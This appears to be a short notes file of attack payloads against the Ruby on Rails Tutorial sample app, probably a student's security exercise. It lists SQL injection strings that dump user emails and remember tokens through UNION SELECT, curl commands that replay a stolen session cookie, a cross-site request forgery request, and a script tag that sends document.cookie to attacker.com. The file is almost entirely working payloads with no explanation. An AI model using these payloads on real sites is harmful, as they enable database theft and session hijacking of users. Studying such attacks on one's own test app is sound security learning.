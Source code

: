 # Ruby on Rails Tutorial: sample app

# SQL injection
a' ) or 1 = 1  --  
XXX') union select 1, email, 1, 1, 1 from users --  
XXX') union select 1, remember_token, 1, 1, 1 from users --  

curl "http://www.blog.com:3000/" --cookie remember_token=


# CSS
# Post this
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>


# XSRF
curl "http://www.blog.com:3000/microposts/7" --cookie remember_token=
